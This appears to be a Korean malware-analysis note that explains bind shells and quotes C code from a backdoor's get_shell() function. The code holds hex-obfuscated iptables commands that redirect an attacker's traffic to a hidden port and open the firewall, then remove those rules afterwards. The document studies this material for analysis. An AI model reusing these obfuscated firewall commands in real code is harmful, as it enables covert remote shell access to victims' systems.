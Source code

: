 `ECHAR`(0x0b) 문자가 들어있는 경우 터미널의 크기 등을 지정하여 vim 등 고급 도구를 활용할 수 있도록 한다  
<br>

---

### 바인드 쉘 (Bind Shell)

바인드 쉘은 피해자 시스템이 포트 하나를 열어두게 하고 해당 포트로 접속하여 쉘을 획득하는 공격 기법이다  

피해자 시스템은 쉘을 제공할 TCP 포트를 열고 대기하고, 공격자는 해당 포트로 접속한다  
피해자 시스템은 쉘을 표준 입출력에 바인딩하여 공격자의 입력을 실행하고 출력을 전달한다  
<br>

---

```c
int  sock, sockfd, toport;
char cmd[512] = {0}, rcmd[512] = {0}, dcmd[512] = {0};
char cmdfmt[] = {
                0x2f, 0x73, 0x62, 0x69, 0x6e, 0x2f, 0x69, 0x70, 0x74, 0x61, 0x62, 0x6c,
                0x65, 0x73, 0x20, 0x2d, 0x74, 0x20, 0x6e, 0x61, 0x74, 0x20, 0x2d, 0x41,
                0x20, 0x50, 0x52, 0x45, 0x52, 0x4f, 0x55, 0x54, 0x49, 0x4e, 0x47, 0x20,
                0x2d, 0x70, 0x20, 0x74, 0x63, 0x70, 0x20, 0x2d, 0x73, 0x20, 0x25, 0x73,
                0x20, 0x2d, 0x2d, 0x64, 0x70, 0x6f, 0x72, 0x74, 0x20, 0x25, 0x64, 0x20,
                0x2d, 0x6a, 0x20, 0x52, 0x45, 0x44, 0x49, 0x52, 0x45, 0x43, 0x54, 0x20,
                0x2d, 0x2d, 0x74, 0x6f, 0x2d, 0x70, 0x6f, 0x72, 0x74, 0x73, 0x20, 0x25,
                0x64, 0x00}; // /sbin/iptables -t nat -A PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d
char rcmdfmt[] = {
                0x2f, 0x73, 0x62, 0x69, 0x6e, 0x2f, 0x69, 0x70, 0x74, 0x61, 0x62, 0x6c,
                0x65, 0x73, 0x20, 0x2d, 0x74, 0x20, 0x6e, 0x61, 0x74, 0x20, 0x2d, 0x44,
                0x20, 0x50, 0x52, 0x45, 0x52, 0x4f, 0x55, 0x54, 0x49, 0x4e, 0x47, 0x20,
                0x2d, 0x70, 0x20, 0x74, 0x63, 0x70, 0x20, 0x2d, 0x73, 0x20, 0x25, 0x73,
                0x20, 0x2d, 0x2d, 0x64, 0x70, 0x6f, 0x72, 0x74, 0x20, 0x25, 0x64, 0x20,
                0x2d, 0x6a, 0x20, 0x52, 0x45, 0x44, 0x49, 0x52, 0x45, 0x43, 0x54, 0x20,
                0x2d, 0x2d, 0x74, 0x6f, 0x2d, 0x70, 0x6f, 0x72, 0x74, 0x73, 0x20, 0x25,
                0x64, 0x00}; // /sbin/iptables -t nat -D PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d
char inputfmt[] = {
                0x2f, 0x73, 0x62, 0x69, 0x6e, 0x2f, 0x69, 0x70, 0x74, 0x61, 0x62, 0x6c,
                0x65, 0x73, 0x20, 0x2d, 0x49, 0x20, 0x49, 0x4e, 0x50, 0x55, 0x54, 0x20,
                0x2d, 0x70, 0x20, 0x74, 0x63, 0x70, 0x20, 0x2d, 0x73, 0x20, 0x25, 0x73,
                0x20, 0x2d, 0x6a, 0x20, 0x41, 0x43, 0x43, 0x45, 0x50, 0x54, 0x00}; // /sbin/iptables -I INPUT -p tcp -s %s -j ACCEPT
char dinputfmt[] = {
                0x2f, 0x73, 0x62, 0x69, 0x6e, 0x2f, 0x69, 0x70, 0x74, 0x61, 0x62, 0x6c,
                0x65, 0x73, 0x20, 0x2d, 0x44, 0x20, 0x49, 0x4e, 0x50, 0x55, 0x54, 0x20,
                0x2d, 0x70, 0x20, 0x74, 0x63, 0x70, 0x20, 0x2d, 0x73, 0x20, 0x25, 0x73,
                0x20, 0x2d, 0x6a, 0x20, 0x41, 0x43, 0x43, 0x45, 0x50, 0x54, 0x00}; // /sbin/iptables -D INPUT -p tcp -s %s -j ACCEPT
```

`get_shell()` 함수에 iptables 규칙을 생성하고 삭제하는 명령어가 하드코딩되어 있다  

